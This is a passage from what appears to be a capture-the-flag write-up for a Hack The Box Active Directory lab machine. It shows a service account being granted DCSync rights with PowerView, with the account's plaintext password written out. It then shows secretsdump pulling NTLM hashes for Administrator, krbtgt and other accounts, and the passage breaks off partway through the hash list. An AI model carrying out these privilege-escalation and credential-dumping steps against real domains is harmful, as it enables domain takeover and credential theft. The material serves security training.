     Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   9/10/2020 11:40:43 AM

    Logon hours allowed          All

    Local Group Memberships
    Global Group memberships     *Exchange Windows Perm*Domain Users
                                 *Service Accounts
    The command completed successfully.
    ```
2. Grant the user `DcSync privileges` using `PowerView`.  
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 's3rvice' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $pass)
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "svc-alfresco" -Rights DCSync
    ```
3. Dump the hashes of all users using DcSync attack.  
    ```bash
    kali@kali:~/Desktop/tools/win/evil-winrm$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
    htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
    htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
    htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
    htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::